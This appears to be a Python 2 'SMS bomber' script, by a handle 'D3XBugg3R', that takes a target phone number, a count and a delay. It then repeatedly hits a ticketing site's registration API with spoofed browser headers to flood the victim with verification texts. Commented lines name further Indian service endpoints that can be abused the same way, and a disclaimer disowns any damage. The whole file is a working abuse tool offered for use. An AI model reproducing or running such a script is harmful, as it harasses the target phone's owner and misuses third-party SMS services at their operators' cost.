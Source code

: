 python2
#from urllib.request import Request,urlopen
import urllib2,cookielib
#from urllib.parse import urlencode
import platform
import os
import time

try:
    raw_input
except NameError:
    raw_input = input

def banner():
    if platform.system().lower()=="windows":
        os.system("cls")
    else:
        os.system("clear")
    print("""
  /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$ 
 /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$
| $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/
 \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$
 /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$
 \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/
                                                                                                                                                                                                    
                                   By : D3XBugg3R                                                                                                 
    Note : I won't be responsible for any damage caused by this script, Use at your own risk
""")

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

#http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=
def send(num, counter, slep):
    #url = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=","https://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile="]
    url="https://securedapi.confirmtkt.com/api/platform/register?mobileNumber="
    #data={"phone":num}
    hdr = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3','Accept-Encoding': 'none','Accept-Language': 'en-US,en;q=0.8','Connection': 'keep-alive'}
    result_url=url+num
    req = urllib2.Request(result_url, headers=hdr)
    for x in range(counter):
        banner()
        #print("Target Number          : 01531999473", num)
        #print("Number of Message Sent : ", x+1)
        page = urllib2.urlopen(req)
        #resp1=Request(result_url)
        #urlopen(resp1)
        time.sleep(slep)
try:
    banner()
    number = raw_input("Enter mobileNumber: ")
    count = raw_input("Enter number of Message: ")
    throttle = raw_input("Enter time of sleep: ")
    send(number,int(count), int(throttle))
except Exception as e:
    print("Something is wrong please Re-run this script.")
    
   
